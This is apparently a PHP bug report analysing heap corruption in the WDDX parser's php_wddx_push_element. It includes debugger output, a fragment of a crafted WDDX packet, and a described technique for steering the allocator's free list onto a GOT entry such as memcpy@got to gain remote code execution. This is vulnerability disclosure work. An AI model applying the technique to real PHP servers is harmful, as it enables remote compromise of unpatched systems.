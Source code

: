 ```
R12: 0x121cd34 --> 0x6f6f6200656d616e ('name')
R13: 0x1219828 ("name=\"YYYYYYYY\">\n\t\t\t<var name=\"ZZZZZZZZ\">\n\t\t\t\t<var name=\"EZEZEZEZ\">\n\t\t\t\t</var>\n\t\t\t</var>\n\t\t</var>\n\t</array>\n</wddxPacket>")
R14: 0x1
R15: 0x121d150 --> 0x121cd34 --> 0x6f6f6200656d616e ('name')
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7c5cd2 <php_wddx_push_element+2787>:
    lea    rsi,[rip+0x5cbb7f]        # 0xd91858
   0x7c5cd9 <php_wddx_push_element+2794>: mov    rdi,rax
   0x7c5cdc <php_wddx_push_element+2797>: call   0x856850 <_estrdup>
=> 0x7c5ce1 <php_wddx_push_element+2802>: mov    rdx,rax
   0x7c5ce4 <php_wddx_push_element+2805>: mov    rax,QWORD PTR [rbp-0xc0]
   0x7c5ceb <php_wddx_push_element+2812>: mov    QWORD PTR [rax+0x8],rdx
   0x7c5cef <php_wddx_push_element+2816>:
    jmp    0x7c639c <php_wddx_push_element+4525>
   0x7c5cf4 <php_wddx_push_element+2821>: add    DWORD PTR [rbp-0xd8],0x1
[------------------------------------stack-------------------------------------]
```

2nd malloc : ZZZZZZZZ , zend_mm_alloc_small() will return with 0x7ffff44710c0 again and then update 
heap->free_slot[bin_num] = p->next_free_slot = YYYYYYYY (because zend_mm_alloc_small think YYYYYYYY is the next_free_slot).

3rd malloc:  EZEZEZEZ, zend_mm_alloc_small() will return YYYYYYYY for us and this lead to crash at **heap->free_slot[bin_num] = p->next_free_slot;** when zend_mm_alloc_small() try to update next_free_slot to heap->free_slot.

At this point, if we replace YYYYYYYY with an address of GOT table for example memcpy@got, zend_mm_alloc_small() will happly return this address for us, and the call memcpy(memcpy@got,EZEZEZEZE,8); in which EZEZEZEZ is value we control, this may lead to remote code execution.

This bug also works in PHP 7.0.x

References: https://bugs.php.net/bug.php?id=72340

## Attachments
No attachments
